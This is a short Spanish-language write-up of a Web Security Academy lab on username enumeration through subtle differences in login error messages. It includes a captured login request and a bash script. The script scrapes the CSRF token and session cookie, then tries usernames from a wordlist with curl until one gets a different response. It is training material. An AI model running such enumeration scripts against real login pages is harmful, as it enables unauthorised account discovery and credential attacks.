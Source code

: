Para este ejercicio debemos de enumerar el usuario que tiene una variacion pequeña entre los errores.

![view](img7.png)

```bash
https://ac5f1f6e1e51c1a980554be900c700f2.web-security-academy.net/login
csrf=ok1ahDjlVNE1Q2ZHTa0wP5fZd6C8BtIN&username=a&password=a
```

Como nos dicen que hay una pequeña variacion en el mensaje de error, entonces vamos a pobrar con todo el payload completo de error el cual es **<p class=is-warning>Invalid username or password.</p>**

```bash
#!/bin/bash

URL='https://ac5f1f6e1e51c1a980554be900c700f2.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`;do

	DATA='csrf='$CSRF'&username='$USER'&password=a'
	RESULT=`curl $URL -d $DATA -b $COOKIE -s`
    
	if echo $RESULT | grep -F '<p class=is-warning>Invalid username or password.</p>' > $NULL
	#Fijarse que puse -F porque estaba considerando el . como una expresion regular
	then
		echo "Incorrect user: $USER"
	else
		echo "Valid user: $USER"
		break
	fi
done
```
